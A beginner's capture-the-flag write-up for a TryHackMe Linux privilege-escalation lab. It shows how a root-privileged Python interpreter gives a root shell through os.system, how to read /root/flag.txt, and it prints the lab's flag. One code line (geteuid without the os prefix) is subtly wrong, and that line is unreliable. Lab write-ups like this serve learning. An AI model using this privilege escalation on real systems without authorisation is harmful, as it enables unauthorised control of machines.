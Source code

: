 # Linux Privesc Playground - Try Hack Me - https://tryhackme.com/room/privescplayground
 
# This is my first Write-up but a simple one to preform.


# lets get in the machine and open python 
SSH Credentials - user:password

so there is a "trick" to gain an easy shell with the help of python
first we have to see if python has root premonition so we could exploit it
 
$ python
'''
Python 3.8.3.................... blablablablabla
'''

great! we got python installed, lets continue.

now we are in the python interactive shell, this is sort of a testing ground for coders.
but for us, its just a convenient way to get a shell.

we only need to init one library for OS commands
> import os

now, lets see if we are root. (euid = 0:root)

> geteuid()

'''
0
'''

Grate! python user has root privileges! lets use that ofc...
the syntax should look like this 

> os.system("whoami")

'''
root
0
'''

note you can press the arrow-key-up button to toggle previous commands exactly like a regular shell

to get the flag we will do the following

> os.system("cat /root/flag.txt")

'''
THM{3asy_f14g_1m40}
'''
 
# -------------------------------------------------------------------------------
# bonus:

do you want to make your life easyer? (that's what python ment for)
 
> def A(i):

>   os.system(i)

press return key (enter)


now all we need to do is A("YOUR COMMAND GOES HERE")

A('whoami')
'''
root
0
'''

# Even better:

while True:

   i = input('CMD: ')

   os.system(i)

press return key (enter)

'''
CMD: 
'''
now we got ourself a loop and created our-self an easy root shell!

Hye! if you done the bonus why not get in to a python course?